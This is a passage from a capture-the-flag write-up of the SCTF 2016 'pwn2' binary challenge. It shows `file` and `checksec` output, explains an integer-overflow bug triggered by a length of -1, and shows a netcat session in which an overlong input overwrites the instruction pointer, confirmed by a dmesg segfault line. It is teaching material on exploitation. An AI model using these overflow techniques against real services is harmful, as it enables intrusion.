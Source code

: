 # pwn2 - SCTF 2016

I solved this challenge during the ctf with @ret2libc but i never made a write up. So last week i had to talk about ROP with my teamate and i decided to write this!

First of all execute `file` command
```bash
$ file pwn2
pwn2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xbc536d4b730eca9af1733195bd75dc53486a0d54, not stripped
```

and `checksec` 
```bash
$ ./checksec --file pwn2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No	0		2	pwn2
```

The vulnerability is trivial: a very basic integer overflow
![Vuln](vuln.png)

So we can easily overflow the buffer (we used `socat`, so we connect with `nc` to the service)
```bash
$ nc localhost 2323
How many bytes do you want me to read? -1
Ok, sounds good. Give me 4294967295 bytes of data!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB                                      
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

and see `dmesg`

```bash
$ dmesg
..
..
..
[ 1929.348357] pwn2[1876]: segfault at 42424242 ip 42424242 sp bfe9c8a0 error 14
```
